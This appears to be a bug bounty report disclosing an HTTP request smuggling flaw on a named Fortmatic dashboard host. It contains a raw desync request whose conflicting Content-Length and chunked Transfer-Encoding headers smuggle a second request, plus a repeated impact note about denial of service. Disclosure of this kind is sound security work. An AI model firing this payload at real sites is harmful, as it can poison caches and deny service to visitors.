 ```
GET /login HTTP/1.1
Host: dashboard.fortmatic.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://dashboard.fortmatic.com/
DNT: 1
Connection: keep-alive
Cookie: ajs_user_id=null; ajs_group_id=null; ajs_anonymous_id=%2217057bde-1957-4ee5-ab69-48f049e806f1%22
Upgrade-Insecure-Requests: 1
If-Modified-Since: Sat, 07 Dec 2019 02:01:47 GMT
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-length: 4
 Transfer-Encoding: chunked

72
GET / HTTP/1.1
Host: x2.fortmatic.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```



Impact:

The miss configuration with the back end cause it to reflect back the error page when the next valid request comes through. This will lead to a DOS serve this error page when visitor view the website. I will work on exploiting this more

Resources:

https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
https://portswigger.net/web-security/request-smuggling
https://portswigger.net/research/practical-web-cache-poisoning

## Impact

Impact:

The miss configuration with the back end cause it to reflect back the error page when the next valid request comes through. This will lead to a DOS serve this error page when visitor view the website. I will work on exploiting this more

## Attachments
No attachments
